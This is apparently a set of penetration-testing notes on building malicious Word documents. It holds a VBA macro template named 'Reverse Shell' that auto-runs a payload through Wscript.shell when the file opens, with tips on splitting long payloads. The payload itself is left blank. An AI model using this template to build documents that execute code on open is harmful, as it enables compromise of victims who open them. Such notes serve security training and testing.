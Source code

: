 ## Macros
### How to Add a Macro to a Microsoft Word Document
1. Click-on "View" > "Macros" 
2. Set "Macro name" to be "Reverse Shell"
3. Set "Macros in" to be the name of the current Word document
4. Click-on "Create"
5. Replace the provided template code with your payload (see below for an example)
6. Save the macro-embedded file as a "Word 97-2003 Document"

### Example Macro
To test the example code below, save it with a .doc or .docm file (do not use .docx). Ensure to use variables to store strings as VBA limits string lengths to no more than 255 per string. In other words, if you have a long payload, break it up and then concatenate each part to a variable. 
```vba
Sub AutoOpen()
  ReverseShell
End Sub

Sub Document_Open()
  RevereShell
End Sub

Sub ReverseShell()
  ' copy/paste your payload into the FOO variable
  Dim FOO As String
  FOO = ""
  
  CreateObject("Wscript.shell").Run FOO
End Sub
```

### Example Macro Syntax Explained
```bash
# Sub = used like a function, does not return values (functions do)
# AutoOpen() = predefined procedure; executed when a new doc is opened
# Document_Open() = predefined procedure; exec when a doc is already opened
# ' = comments
# Dim = used to declare a var (example declares FOO as a string var)
# CreateObject() = ???
# End Sub = represents the end of "sub" procedure within our exploit
```

### VBScript, CScript, and WScript
* 'cscript' runs entirely in the command line and is ideal for non-interactive scripts.
* 'wscript' will popup Windows dialogue boxes for user interaction.